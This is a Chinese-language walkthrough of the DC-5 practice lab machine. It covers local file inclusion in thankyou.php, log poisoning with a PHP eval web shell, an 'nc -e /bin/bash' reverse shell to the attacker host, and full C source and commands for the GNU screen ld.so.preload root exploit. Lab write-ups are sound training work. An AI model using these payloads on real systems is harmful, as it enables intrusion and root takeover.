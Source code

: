 ```yaml
---
title: DC5
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-16T18:21:39+08:00
categories: 
- 渗透测试
- 靶机练习
---
```


```
arp-scan -l 
==> 192.168.121.148
```

得到目标IP开始进行信息收集，能够看到的有三个页面，contact页面下具有输入框，用于发送

nmap先扫描一下端口

![nmap](E:\笔记软件\笔记\渗透测试\靶机练习\DC5图库\nmap.png)

开放了三个端口，80,111,40225，其中111端口是rpcbind服务

**简单了解一下rpcbind**

rpcbind工具用于将RPC程序号码和通用地址互相转换。要让某主机能向远程主机的服务发起RPC调用， 则该主机上的rpcbind必须处于已运行状态。portmap进程一般使用TCP/UDP的111端口。rpcbind工具只能由super-user启动。

扫描一下目录，没有得到什么可用信息，再起一个漏扫看看![awvs](E:\笔记软件\笔记\渗透测试\靶机练习\DC5图库\awvs.png)

也没有得到什么有用的信息，决定对contact.php页面的输入框进行测试，抓包发现，参数直接由tankyou.php发送，而contact.php用于验证referer,参数直接包含在url中，先测试一下sql注入，其实并不抱太大希望，看了一下靶机提示，说是一些根据页面刷新而变动的东西，再次寻找一些信息，终于在thankyou.php页面，发现重复提交，页面下方的年份会发生变化，抓包没有发现返回逻辑，网页结构中存在一个footer.php，访问发现返回下部的加载框，并且是动态返回，因此，thankyou.php页面很有可能就是包含了footer.php这个页面，存在本地文件包含漏洞，尝试使用工具，调试编译环境，但是工具只能检测出静态参数目录，这里还是需要手动尝试

![include](E:\笔记软件\笔记\渗透测试\靶机练习\DC5图库\include.png)

可以看到利用file参数成功包含了index.php，把file参数丢到工具里面进行测试，![kadimus](E:\笔记软件\笔记\渗透测试\靶机练习\DC5图库\kadimus.png)

能够看到较多的有效路径，并且读取/etc/passwd成功，该工具能为我们提供reverse shell,可以尝试以下，一直连接失败，改用写入一句话木马，根据WP一直没法包含日志文件，尝试更新了以下环境，IP改为192.168.121.149,再次写马

```
<?php eval($_REQUEST[cmd]);?>
```

根据不同的日志文件，最后在/var/log/nginx/error.log处连接上蚁剑![蚁剑](E:\笔记软件\笔记\渗透测试\靶机练习\DC5图库\蚁剑.png)

但是我们还没有权限访问root目录，先获取shell

```
nc -e /bin/bash 192.168.121.135 7777
```

然后升级为交互式shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![shell](E:\笔记软件\笔记\渗透测试\靶机练习\DC5图库\shell.jpg)

无法使用sudo命令，但是可以使用find,使用find命令查找提权信息

```
find / -perm -u=s -type f 2>/dev/null
```

![find](E:\笔记软件\笔记\渗透测试\靶机练习\DC5图库\find.png)

看看有什么命令可以用于我们提权，发现screen可以在没有sudo的情况下提权，单独利用无果后搜寻exp

![exp](E:\笔记软件\笔记\渗透测试\靶机练习\DC5图库\exp.png)

按照所给exp中步骤编译两个文件

libhax.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

rootshell.c

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -o rootshell rootshell.c
```

分别进行编译，pyhon起一个http服务

```
python -m http.server 8000
```

在shell中获取这两个文件

```
wget http://192.168.121.135:8000/rootshell
wget http://192.168.121.135:8000/libhax.so
```

然后在目标靶机执行以下命令

```
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

即可成功提权root,但是当我执行最后一步rootshell提权时出现以下问题![last](E:\笔记软件\笔记\渗透测试\靶机练习\DC5图库\last.png)

上网查询是由于编译器版本问题，目标服务器上没有GLIBC_2.34,而攻击机使用GLIBC_2.34版本过高导致运行失败，直接上传41154.sh文件执行也报出该错误，暂时无法解决这个问题，最后再看一下是怎么得到file参数的，通过fuzz跑字典来得到

```
wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt http://192.168.121.149/thankyou.php?FUZZ=/etc/passwd
```

![file](E:\笔记软件\笔记\渗透测试\靶机练习\DC5图库\file.png)

至此该靶机告一段落

### 总结：

该靶机相较于DC1-4难度有所上升，比较困难的部分在于找到文件包含漏洞以及利用的问题，没有什么工具可以直接跑，还需要通过字典来判断接受的参数，比较考验做题人的观察能力；以及提权部分上传poc能否成功利用也是一个问题


